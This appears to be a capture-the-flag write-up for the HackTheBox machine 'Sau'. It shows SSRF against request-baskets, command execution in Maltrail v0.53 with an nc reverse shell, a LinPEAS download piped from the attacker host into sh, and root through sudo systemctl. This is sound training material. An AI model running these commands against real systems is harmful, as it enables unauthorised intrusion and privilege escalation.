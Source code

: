 ```yaml
---
title: "Sau"
publishedAt: "2024-10-11"
image: "/images/blog/sau/htb_sau.jpg"
summary: "A writeup detailing the exploitation of a HackTheBox machine named 'Sau'. The writeup covers the discovery and exploitation of a Server-Side Request Forgery (SSRF) vulnerability in a service running on port 55555, which leads to the identification of Maltrail v0.53 running internally. The writeup then demonstrates how to leverage a known command execution vulnerability in Maltrail to gain initial access as the 'puma' user. Finally, it shows how to escalate privileges to root by exploiting sudo permissions on the systemctl binary."
tag: "HackTheBox"
---
```


## Initial Reconnaissance

First, we initiate a scan of open ports:

<CodeBlock className="my-24"
    compact
    codeInstances={[
        {
            code: 'nmap -sC -sV [BOX_IP]',
            language: 'bash'
        },
    ]}
    copyButton
/>

This reveals an exposed service at `http://[BOX_IP]:55555/`. Another service is detected on port 80, but it remains inaccessible to us.

Access the URL from your browser to observe the app version is 1.2.1.

## Exploiting the SSRF Vulnerability

A quick Google search reveals that this version is vulnerable to Server Side Request Forgery (SSRF) on the `/api/baskets/{baskets_name}` endpoint.

We proceed to trigger the SSRF to extract information from the inaccessible port 80:
<CodeBlock className="my-24"
    compact
    codeInstances={[
        {
            code: `curl -L 'http://[BOX_IP]:55555/api/baskets/idklol' --header 'Content-Type: application/json' --data '{"forward_url": "http://127.0.0.1:80/", "proxy_response": true, "insecure_tls": false, "expand_path": true, "capacity": 250}'`,
            language: 'bash'
        },
    ]}
    copyButton
/>

By accessing `http://[BOX_IP]:55555/idklol`, we obtain the leaked webpage which uses Maltrail v0.53.

## OS Command Execution Exploit

Another Google search for "Maltrail v0.53 exploit" reveals it is also vulnerable to OS command execution. 

Referencing this PoC: https://github.com/spookier/Maltrail-v0.53-Exploit, we note that the login page is needed to exploit the "username" field. 

To address this, we modify our first vulnerability to redirect traffic to the `/login` endpoint:

<CodeBlock className="my-24"
    compact
    codeInstances={[
        {
            code: `curl -L 'http://[BOX_IP]:55555/api/baskets/idklmao' --header 'Content-Type: application/json' --data '{"forward_url": "http://127.0.0.1:80/login", "proxy_response": true, "insecure_tls": false, "expand_path": true, "capacity": 250}'`,
            language: 'bash'
        },
    ]}
    copyButton
/>

We then execute the following command to obtain a session as the user "puma":

<CodeBlock className="my-24"
    compact
    codeInstances={[
        {
            code: `nc -lvnp [YOUR_PORT]
python3 exploit.py [YOUR_IP] [YOUR_PORT] http://[BOX_IP]:55555/idklmao`,
            language: 'bash'
        },
    ]}
    copyButton
/>

The user flag can be found at `/home/puma/user.txt`. We now need to escalate our privileges.

## Privilege Escalation with LinPEAS

To begin, we run LinPEAS, a Linux enumeration tool. Download it from the latest release on GitHub: https://github.com/carlospolop/PEASS-ng/releases/latest and move it into a separate folder.

In order to transfer it to the box, we establish a python server within the directory containing `LinPEAS.sh`:

<CodeBlock className="my-24"
    compact
    codeInstances={[
        {
            code: 'sudo python3 -m http.server 80',
            language: 'bash'
        },
    ]}
    copyButton
/>
Inside the box, we use `curl` to download it:

<CodeBlock className="my-24"
    compact
    codeInstances={[
        {
            code: 'curl http://[YOUR_IP]/linpeas.sh | sh',
            language: 'bash'
        },
    ]}
    copyButton
/>

Despite multiple attempts trying out things with LinPEAS output, I didn't find a way to get root at first.

## Exploiting Sudo Permissions

After some search, we identify a path to privilege escalation through LinPEAS output:
<CodeBlock className="my-24"
    compact
    codeInstances={[
        {
            code: `╔══════════╣ Checking 'sudo -l', /etc/sudoers, and /etc/sudoers.d
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-and-suid
Matching Defaults entries for puma on sau:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User puma may run the following commands on sau:
    (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service`,
            language: 'bash'
        },
    ]}
    copyButton
/>

This indicates that the user has the ability to execute `sudo /usr/bin/systemctl status trail.service`, which triggers a "less" command page style. 

Looking at https://gtfobins.github.io/gtfobins/systemctl/, we learn that: "If the binary is allowed to run as superuser by sudo, it does not drop the elevated privileges and may be used to access the file system, escalate, or maintain privileged access."

If we trigger the command as sudo, our privileges will be maintained when gaining another shell. 
Following the instructions in point c) inside gtfobins, we execute:

<CodeBlock className="my-24"
    compact
    codeInstances={[
        {
            code: 'sudo /usr/bin/systemctl status trail.service',
            language: 'bash'
        },
    ]}
    copyButton
/>

Then type:

<CodeBlock className="my-24"
    compact
    codeInstances={[
        {
            code: '!sh',
            language: 'bash'
        },
    ]}
    copyButton
/>

This provides another shell. We verify our privileges:

<CodeBlock className="my-24"
    compact
    codeInstances={[
        {
            code: 'whoami',
            language: 'bash'
        },
    ]}
    copyButton
/>
This should output `root`, indicating that we have root-level privileges. 

The flag can be found under `/root/root.txt`.

Happy rooting :)